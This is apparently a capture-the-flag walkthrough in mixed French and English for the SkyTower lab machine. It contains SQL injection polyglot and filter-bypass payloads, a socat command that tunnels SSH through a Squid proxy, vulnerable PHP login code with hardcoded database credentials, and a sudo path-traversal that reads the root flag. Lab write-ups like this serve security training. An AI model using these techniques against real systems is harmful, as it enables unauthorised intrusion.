


# Skytower


Skytower is an intermediate level machine

What I learned:
+ SQLi simple filter
+ HTTP Proxying for ssh with socat
+ ssh commands


## In brief

- Detect SQLi with ' or 5s delay polyglot
- Exploit SQLi with || and # 
- Ssh through HTTP tunnel with socat
- Get DB credentials in /var/www/login.php
- Get users credentials in DB
- Ssh through HTTP tunnel with socat
- sudo


## Nmap

````
nmap 192.168.56.1/24
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-19 06:00 GMT
Nmap scan report for 192.168.56.101
Host is up (0.00014s latency).
Not shown: 997 closed ports
PORT     STATE    SERVICE
22/tcp   filtered ssh
80/tcp   open     http
3128/tcp open     squid-http
````

## 80 : Login/password  SQLi



Detecter la sqli avec ' ou un polyglot
````
a/*$(sleep 5)`sleep 5``*/sleep(5)#'/*$(sleep 5)`sleep 5` #*/||sleep(5)||'"||sleep(5)||"`
````

On devine que "SELECT", "TRUE", "FALSE", "--","OR", "=", ",", "AND", "NOT" sont filtrés
On utilise || à la place du OR 
````
a'   || 1=1;  #
````


On obtient un login/passwd ssh
````
Username: john
Password: hereisjohn
````

## 3228: HTTP proxy

Ouvre un tunnel pour atteindre le port 22: localhost:9999 --- (192.168.56.1.101:3128) ---> 127.0.0.1:22
````
socat TCP-LISTEN:9999,reuseaddr,fork PROXY:192.168.56.101:127.0.0.1:22,proxyport=3128
````

Se connecter en ssh
````
$ssh john@localhost -p 9999
The authenticity of host '[localhost]:9999 ([127.0.0.1]:9999)' can't be established.
ECDSA key fingerprint is SHA256:QYZqyNNW/Z81N86urjCUIrTBvJ06U9XDDzNv91DYaGc.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[localhost]:9999' (ECDSA) to the list of known hosts.
john@localhost's password: 
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Jun 20 07:41:08 2014

Funds have been withdrawn
Connection to localhost closed.
````
Un exit à la fin du .bashrc nous deconnecte. 
Lancer une commande /bin/bash via ssh
````
ssh john@127.0.0.1 -p 9999 /bin/bash
The authenticity of host '[127.0.0.1]:9999 ([127.0.0.1]:9999)' can't be established.
ECDSA key fingerprint is SHA256:QYZqyNNW/Z81N86urjCUIrTBvJ06U9XDDzNv91DYaGc.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[127.0.0.1]:9999' (ECDSA) to the list of known hosts.
john@127.0.0.1's password: 

id
uid=1000(john) gid=1000(john) groups=1000(john)
ls -lR /home
/home:
total 12
drwx------ 2 john    john    4096 Jun 20  2014 john
drwx------ 2 sara    sara    4096 Jun 20  2014 sara
drwx------ 2 william william 4096 Jun 20  2014 william
````

Recupérer les access bdd dans la page php
````
cat /var/www/log*
<?php
$db = new mysqli('localhost', 'root', 'root', 'SkyTech');
if($db->connect_errno > 0){ die('Unable to connect to database [' . $db->connect_error . ']'); }

$sqlinjection = array("SELECT", "TRUE", "FALSE", "--","OR", "=", ",", "AND", "NOT");
$email = str_ireplace($sqlinjection, "", $_POST['email']);
$password = str_ireplace($sqlinjection, "", $_POST['password']);

$sql= "SELECT * FROM login where email='".$email."' and password='".$password."';";
$result = $db->query($sql);
if(!$result)
    die('There was an error running the query [' . $db->error . ']');
if($result->num_rows==0)
    die('<br>Login Failed</br>');

$row = $result->fetch_assoc();

echo "<HTML>";
echo '
      <div style="height:100%; width:100%;background-image:url(\'background.jpg\');
                                background-size:100%;
                                background-position:50% 50%;
                                background-repeat:no-repeat;">
      <div style="
		  padding-right:8px;  
      	  	  padding-left:10px; 
		  padding-top: 10px;  
      		  padding-bottom: 10px;  
                  background-color:white;     
                  border-color: #000000;
                  border-width: 5px;
                  border-style: solid;
                  width: 400px;
                  height:430px;
                  position:absolute;
                  top:50%;
                  left:50%;
                  margin-top:-215px; /* this is half the height of your div*/  
                  margin-left:-200px;
                                ">
	';
echo "<br><strong><font size=4>Welcome ".$row["email"]."</font><br /> </br></strong>";
echo "As you may know, SkyTech has ceased all international operations.<br><br> To all our long term employees, we wish to convey our thanks for your dedication and hard work.<br><br><strong>Unfortunately, all international contracts, including yours have been terminated.</strong><br><br> The remainder of your contract and retirement fund, <strong>$2</strong> ,has been payed out in full to a secure account.  For security reasons, you must login to the SkyTech server via SSH to access the account details.<br><br><strong>Username: ".explode("@",$row["email"])[0]."</strong><br><strong>Password: ".$row["password"]."</strong>";
echo " <br><br> We wish you the best of luck in your future endeavors. <br> </div> </div>";
echo "</HTML>"

?>
````


socat TCP-LISTEN:9999,reuseaddr,fork PROXY:192.168.1.84:127.0.0.1:22,proxyport=3128
ssh john@locahost -p 9999
exit en fin de .bashrc 

ssh john@127.0.0.1 -p 9999 /bin/bash


dump la bdd pour trouver les pswd de xx et sara 


sara même blague du exit ds .bashrc 


$ sudo -l
Matching Defaults entries for sara on this host:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sara may run the following commands on this host:
    (root) NOPASSWD: /bin/cat /accounts/*, (root) /bin/ls /accounts/*
sara@SkyTower:~$ 
sara@SkyTower:~$ 
sara@SkyTower:~$ 
sara@SkyTower:~$ 
sara@SkyTower:~$ 
sara@SkyTower:~$ sudo /bin/ls /accounts/../../root
flag.txt
sara@SkyTower:~$ sudo /bin/cat /accounts/../../root/flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower


